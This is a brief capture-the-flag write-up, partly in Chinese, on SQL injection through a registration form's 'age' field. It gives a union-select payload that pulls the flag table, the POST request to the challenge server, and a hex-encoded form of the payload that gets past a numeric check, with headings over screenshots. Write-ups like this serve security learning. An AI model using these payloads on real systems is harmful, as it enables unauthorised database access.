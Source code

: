 # writeup

### 注册页面age参数存在sql注入：

```
payload：1 and 1=2 union select 1,(select flag from flag),3,4#

POST:

http://39.107.32.29:10000/index.php?func=register


username=admin31233&age=1 and 1=2 union select 1,(select flag from flag),3,4#&password=admin1230


payload经过hex编码之后：


username=admin31423&age=3120616e6420313d3220756e696f6e2073656c65637420312c2873656c65637420666c61672066726f6d20666c6167292c332c3423&password=admin1230

```
### 0x01 题目链接
![](./images/1.jpg)

### 0x02 注册页面
![](./images/2.jpg)

### 0x03 age be a number
![](./images/3.png)

### 0x04 注册post包
![](./images/4.png)

### 0x05 注册成功
![](./images/5.png)

### 0x06 登陆post包
![](./images/6.png)

### 0x07 登陆后的返回包
![](./images/7.png)

### 0x08 登陆成功看到flag
![](./images/8.png)




